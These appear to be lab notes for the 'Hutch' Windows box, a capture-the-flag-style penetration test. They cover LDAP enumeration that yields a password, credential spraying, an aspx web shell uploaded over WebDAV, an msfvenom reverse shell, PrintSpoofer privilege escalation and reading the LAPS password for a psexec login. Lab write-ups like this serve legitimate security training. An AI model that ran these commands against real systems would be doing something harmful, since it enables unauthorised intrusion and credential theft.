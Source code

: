 # NMAP

```
sudo nmap -sC -sV 192.168.247.122 -oN nmap-hutch
```

![[PG/Windows/attachments/Pasted image 20250705003007.png]]

All ports 
![[PG/Windows/attachments/Pasted image 20250705121623.png]]

# WEB

```
gobuster dir -u http://hutch.offsec/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobust.out
```

![[PG/Windows/attachments/Pasted image 20250705121226.png]]
- nothing

Fuzz sub-directories (target IIS servers)
```
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --sc 200,301 $URL/FUZZ
```

# SMB 

NXC - nada
![[PG/Windows/attachments/Pasted image 20250705121134.png]]

```
smbclient -L 192.168.247.122
```

# DNS Enum

```
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials
```

## DNS ENUM

```
dnsenum 192.168.175.122
```

![[PG/Windows/attachments/Pasted image 20250705122844.png]]
- nothing

# LDAP

ldapsearch to enumerate users
```
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.247.122" "(objectclass=*)"
```

Username and password found in description
![[PG/Windows/attachments/Pasted image 20250705122944.png]]

Then get user listing 

```
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.175.122" "(objectclass*)" | grep sAMAccountName:
```


# Kerbrute to check if pre-auth is off for anyone

```
kerbrute userenum -d hutch.offsec --dc 192.168.188.122 users
```

![[PG/Windows/attachments/Pasted image 20250705123350.png]]

# Crackmapexec to spray for re-used creds

```
crackmapexec smb $IP -u users 'CrabSharkJellyfish192' -d hutch.offsec
```

# Initial Access

Use fmcsorley and `CrabSharkJellyfish192` password to access webdav server 

Authenticate to WebDAV server 
```
cadaver $IP  
```

![[PG/Windows/attachments/Pasted image 20250705123818.png]]

Put an aspx web shell on the WebDAV server 

```
put /usr/share/webshells/aspx/cmdasp.aspx
```

navigate to /cmdasp.aspx for webshell access

Create reverse shell with msfvenom 

```
msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=4444 -f exe > revshell.exe
```

Start a listener and start the revshell.exe

![[PG/Windows/attachments/Pasted image 20250705124028.png]]

# Priv Esc #1

From `apppool\defaultapppool`
```
whoami /priv
```

![[PG/Windows/attachments/Pasted image 20250705124120.png]]

SeImpersonate can get us system via printspoofer or a potato exploit


# Printspoofer 

Download this executable https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

And execute 

![[PG/Windows/attachments/Pasted image 20250705124256.png]]

We're now the hutchdc

# Local Priv Esc # 2 

Use found creds from fmcsorley and ldapsearch to search for LAPS access

```
ldapsearch -x -H "ldap://192.168.188.122" -D "hutch\fmcsorley" -w "CrabSharkJellyfish192" -b "dc=hutch,dc=offsec" '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```

![[PG/Windows/attachments/Pasted image 20250705124512.png]]

With local admin credentials from LAPS, we can authenticate via PSexec:

```
impacket-psexec hutch.offsec/administrator:'3lvx699J31@]3C'@192.168.188.122 
```

![[PG/Windows/attachments/Pasted image 20250705124608.png]]

We are system. 

